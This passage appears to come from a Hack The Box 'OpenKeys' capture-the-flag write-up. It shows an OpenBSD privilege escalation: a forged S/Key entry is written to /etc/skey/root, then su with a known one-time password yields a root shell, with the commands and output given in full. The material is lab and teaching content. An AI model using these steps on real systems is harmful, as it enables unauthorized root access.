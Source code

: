 ```terminal
```

And now continue with the next `CVE`, it asked for password, simply input `EGG LARD GROW HOG DRAG LAIN`

```terminal
$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root

$ chmod 0600 /etc/skey/root

$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password: EGG LARD GROW HOG DRAG LAIN

# id
uid=0(root) gid=0(wheel)
```

![]({{ "/images/htb/openkeys/roottxt.png" | relative_url }})

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})




